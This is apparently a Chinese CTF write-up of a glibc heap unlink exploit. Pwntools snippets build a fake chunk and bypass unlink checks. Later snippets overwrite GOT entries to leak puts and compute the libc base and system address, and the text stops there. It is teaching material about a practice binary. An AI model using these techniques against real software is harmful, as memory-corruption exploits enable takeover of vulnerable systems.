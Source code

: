 ```python
payload=p64(0)+p64(0x20)
payload+=p64(fd)+p64(bk)
payload+=p64(next_prev)+b'a'*0x8
payload+=p64(prev_size)+p64(0x90)
link.recvuntil(b'OK\n')
edit(2,len(payload),payload)
delete(3)
```

bss 段的 chunkptrs 堆指针数组在 unlink 之前的样子：

![](/images/39008a21080f7bc09acde95947096981.png)

### 具体的 unlink 过程
![](/images/1d400de159faf2bcc7b169728d334124.jpeg)

关键点

1. fakechunk 得从 chunk2 的用户数据起始处开始伪造
2. fakechunk 的 size 是到 next_prev_size 的大小，next_prev_size=fakechunk 的 size
3. fakechunk 的 fd 和 bk 要从 bss 段指向 chunk2 用户数据的堆指针附近选址，从而错位构造出 bss_third_chunk 和 bss_first_chunk，绕过 unlink 的检查
4. 覆盖 chunk3 的 previous_size 和 size 时，previous_size 是 fakechunk 的 size（包括 next_size），size 的 prev_inuse 得是 0

在布置好 fakechunk 和 chunk3 的 size 之后，free 掉 chunk3 之后：

![](/images/82026cff1e6c4e9f861d373ec180059d.png)

> 原本的 chunk3 的指针位置被清零了，但是 chunk2 的指针被改成了 chunkptrs 数组前面的地址，所以可以通过 edit chunk2 来篡改这段内存，从而实现任意修改
>

### 恍然大悟
不过，我这里想到了一个点，明明 unlink 会检查的是下一个 chunk 的 prev_size，为什么 WP （CSDN 还有 CTFwiki 都是）没有直接用 chunk3 的 prev_size 呢？还要在 chunk2 上面弄个next_prev_size 来绕过...

我试着把 chunk3 的 prev_size 弄成 fakechunk 的 size ，然后再把那些 next_prev_size 什么的去掉之后也还是打通了，这下省事儿了

所以上面那个 chunk 的图可以再简洁一点：

![](/images/fea6c925dd0872ccd66403bbe4fe1f49.jpeg)



前面 checksec 可以知道程序的 GOT 表 Partial RELRO，可以利用这里修改一些函数的 got 表

把 bss 段上面的指针数组 [0]、[1]、[2] 修改成 free 的 got 表、puts 的 got 表和 atoi 的 got 表

修改 free 的 got 表为 puts 的 plt，再 free [1] 也就是`puts(puts.got)`把 puts 的真正地址泄露：

```python
payload=b'a'*0x8+p64(elf.got['free'])+p64(elf.got['puts'])+p64(elf.got['atoi']) #0 1 2
edit(2,len(payload),payload)
payload=p64(elf.plt['puts'])
edit(0,len(payload),payload)
delete(1)

puts_addr=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(puts_addr))
libc_base=puts_addr-0x06f5d0
print(hex(libc_base))
system_addr=libc_base+0x045380
```
